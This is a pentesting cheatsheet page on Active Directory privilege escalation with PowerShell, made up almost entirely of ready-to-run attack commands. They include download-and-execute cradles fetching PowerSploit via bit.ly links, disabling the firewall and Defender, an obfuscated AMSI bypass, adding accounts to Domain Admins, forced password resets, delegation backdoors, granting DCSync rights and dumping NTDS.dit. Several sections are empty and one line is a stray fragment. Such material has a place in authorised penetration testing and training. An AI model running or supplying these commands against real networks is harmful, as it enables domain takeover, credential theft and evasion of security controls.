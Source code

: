 ```yaml
---
layout: default
title: Active Directory Privilege Escalation with Powershell
parent: Pentesting
categories: Pentesting Windows
grand_parent: Cheatsheets
has_children: true
---
```

# {{ page.title}}

<!-- vscode-markdown-toc -->
* 1. [PRE-REQUISITE: Installing PowerUp and PowerSploit](#PRE-REQUISITE:InstallingPowerUpandPowerSploit)
* 2. [PRE-REQUISITE: SECURITY TAMPRING](#PRE-REQUISITE:SECURITYTAMPRING)
* 3. [LATERAL MOVEMENT](#LATERALMOVEMENT)
* 4. [PRIVESC](#PRIVESC)
* 5. [TOKEN IMPERSONATION](#TOKENIMPERSONATION)
* 6. [ADD MEMBER](#ADDMEMBER)
* 7. [FORCE PASSWORD CHANGE](#FORCEPASSWORDCHANGE)
* 8. [KERBEROASTING](#KERBEROASTING)
* 9. [ABUSING DELEGATION](#ABUSINGDELEGATION)
* 10. [DUMP NTDS.DIT](#DUMPNTDS.DIT)

<!-- vscode-markdown-toc-config
	numbering=true
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc -->

##  1. <a name='PRE-REQUISITE:InstallingPowerUpandPowerSploit'></a>PRE-REQUISITE: Installing PowerUp and PowerSploit

- [PowerUp CheatSheet](https://github.com/HarmJ0y/CheatSheets/blob/master/PowerUp.pdf)
- [PowerSploit CheatSheet](https://github.com/HarmJ0y/CheatSheets/blob/master/PowerSploit.pdf)

```powershell
# ActiveDirectory Module
iex (new-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/ADModule/master/Import-ActiveDirectory.ps1');Import-ActiveDirectory

# PowerUp Module
iex (new-Object Net.WebClient).DownloadString('http://bit.ly/1PdjSHk'); . .\PowerUp.ps1

# PowerSploit Module
iex (new-Object Net.WebClient).DownloadString('http://bit.ly/28RwLgo'); . .\PowerSploit.ps1
```

##  2. <a name='PRE-REQUISITE:SECURITYTAMPRING'></a>PRE-REQUISITE: SECURITY TAMPRING
```powershell
# windows firewall showing / disabling config 
netsh advfirewall set allprofiles state off
netsh advfirewall show allprofiles

# powershell execution protection bypass
powershell -ep bypass

# powershell fullLanguage / Constrained language mode
# https://seyptoo.github.io/clm-applocker/
$Env:__PSLockdownPolicy
reg query "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\Environment" /v __PSLockdownPolicy
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\Environment" /v __PSLockdownPolicy /t REG_SZ /d ConstrainedLanguage /f
/v fDenyTSConnections /t REG_DWORD /d 1 /f
$ExecutionContext.SessionState.LanguageMode
$ExecutionContext.SessionState.LanguageMode ConstrainedLanguage

# powershell remoting enable / verify (Needs Admin Access)
Enable-PSRemoting

# RDP : enable / disable / check access
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 1 /f
reg query "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections

# WMI remoting as user authenticated on the Da / execution with DC privileges
Set-RemoteWMI -UserName johndoe -ComputerName dcorp-dc.dollarcorp.moneycorp.local -namespace 'root\cimv2' -Verbose

# Windows Defender disabling features
Set-MpPreference -DisableRealtimeMonitoring $true -Verbose
Set-MpPreference -DisableIOAVProtection $true

# Windows Defender AMSI Bypass  
# https://0x00-0x00.github.io/research/2018/10/28/How-to-bypass-AMSI-and-Execute-ANY-malicious-powershell-code.html
sET-ItEM ( &apos;V&apos;+&apos;aR&apos; +  &apos;IA&apos; + &apos;blE:1q2&apos;  + &apos;uZx&apos;  ) ( [TYpE](  "{1}{0}"-F&apos;F&apos;,&apos;rE&apos;  ) )  ;    (    GeT-VariaBle  ( "1Q2U"  +"zX"  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f&apos;Util&apos;,&apos;A&apos;,&apos;Amsi&apos;,&apos;.Management.&apos;,&apos;utomation.&apos;,&apos;s&apos;,&apos;System&apos;  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f&apos;amsi&apos;,&apos;d&apos;,&apos;InitFaile&apos;  ),(  "{2}{4}{0}{1}{3}" -f &apos;Stat&apos;,&apos;i&apos;,&apos;NonPubli&apos;,&apos;c&apos;,&apos;c,&apos;  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

##  3. <a name='LATERALMOVEMENT'></a>LATERAL MOVEMENT
```powershell
Invoke-DCOM
Invoke-SMBExec
Invoke-PsExec
Invoke-Command
mstsc.exe
```

##  4. <a name='PRIVESC'></a>PRIVESC
```
Get-Hotfix
```

##  5. <a name='TOKENIMPERSONATION'></a>TOKEN IMPERSONATION

##  6. <a name='ADDMEMBER'></a>ADD MEMBER
```
# OPTION 1
net group "Domain admins" dagreat /add /domain

# OPTION 2
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('<Domain>\dagreat',$SecPassword)
Add-DomainGroupMember -Identity 'Domain Admins' -Members 'jomivz' -Credential $Cred

# VERIFICATION
Get-DomainGroupMember -Identity 'Domain Admins'
```


##  7. <a name='FORCEPASSWORDCHANGE'></a>FORCE PASSWORD CHANGE
```
# OPTION 1
net user dagreat Password123! /domain

# OPTION 2
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('<Domain>\dagreat',$SecPassword)
$UserPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
Set-DomainUserPassword -Identity dagreat -AccountPassword $UserPassword -Credential $Cred
```

##  8. <a name='KERBEROASTING'></a>KERBEROASTING
```

```
##  9. <a name='ABUSINGDELEGATION'></a>ABUSING DELEGATION
```
# configure the CD backdoor with proto transition
Get-ADComputer -Identity <ServiceA> | Set-ADAccountControl -TrustedToAuthForDelegation $true
Set-ADComputer -Identity DC01 -Add @{'msDS-AllowedDelegationTo'=@('CIFS/DC01.corp')}

# configure a RBCD backdoor
# ServiceB has 'msDS-AllowedToActOnBehalfOfOtherIdentity' set, pointing to ServiceA
Set-ADComputer <ServiceB> -PrincipalAllowedToDelegateToAccount <ServiceA>

# trigger the backdoor
[Reflection::Assembly]::LoadWithPartialName('System.IdentityModel') | out-null
$idToImpersonate = New-Object System.Security.Principal.WindowsIdentity @('<DAgreat>')
$idToImpersonate.Impersonate()
```

# Set A DCSYNC
```
Add-ObjectAcl -TargetDistinguishedName "dc=<DC01>,dc=local" -PrincipalSamAccountName <sogreatW -Rights DCSync -Verbose
```

##  10. <a name='DUMPNTDS.DIT'></a>DUMP NTDS.DIT
```
ntdsutil.exe "activate instance ntds" "ifm" "Create Full C:\Temp\ntds.dmp" quit quit
```
